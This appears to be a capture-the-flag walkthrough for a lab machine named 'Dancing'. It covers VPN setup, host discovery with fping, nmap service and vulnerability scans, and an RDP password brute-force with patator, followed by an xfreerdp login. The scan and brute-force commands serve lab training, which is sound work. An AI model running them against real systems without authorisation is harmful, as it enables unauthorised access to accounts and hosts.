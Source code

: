 # Dancing Walkthrough
## Basic instruction to start the lab

###### Establish VPN connection
By using openVPN tool you can establish VPN connection.
```bash
openvpn blabla.ovpn
```
> Replace blabla.ovpn with your own VPN profile.

###### Test connection
One of the most popular to test the connectio between two end-points is ping.
```bash
ping <target_ip>
```
> Take in your considration, the way to test the connection and check if the host is live (ping). On the real life environment, most likely ping is denied on the network level or on the host to make identify hosr life harder.

```bash
fping -a -g 10.129.145.72/24 2> /dev/null | tee 00-fping-host-discovery.result
```
> I am usually depending on fping to discover the live hosts within specific ranges via ping method.

###### Scan the open ports and banner grabbing
nmap one of the most popular tool to scan the hosts and perform banner grabbing.
```bash
nmap -sS <host_ip> -A --osscan-guess

[Options]
-A: Enable OS detection, version detection, script scanning, and traceroute
--osscan-guess: Guess OS more aggressively
```

###### Run vulnerability scan via nmap
```bash
nmap -sS 10.129.145.72 -p 135,139,445,3389 --script vuln -oA 02-nmap-run-vuln-script.result
```

###### Bruteforce RDP via [patator tool](https://github.com/lanjelot/patator)
> Patator is exist amid the kali linux suite.
```
patator rdp_login host=10.129.145.72  0=~/Desktop/sec-lists/misc/SecLists-master/Usernames/top-usernames-shortlist.txt 1=~/Desktop/sec-lists/misc/SecLists-master/Usernames/top-usernames-shortlist.txt password=FILE1 user=FILE0 
```
> To solve the machine you have to find the correct credential.

> Connect RDP through xfreerdp `xfreerdp /v:<target_ip> /u:<username> /cert:ignore /p:<password>`

###### Weakness!
* Weak credentials.
* Missing rate-limit. 

<p align="center" text> Good Luck </p>
<p align="center" text> Kemet </p>

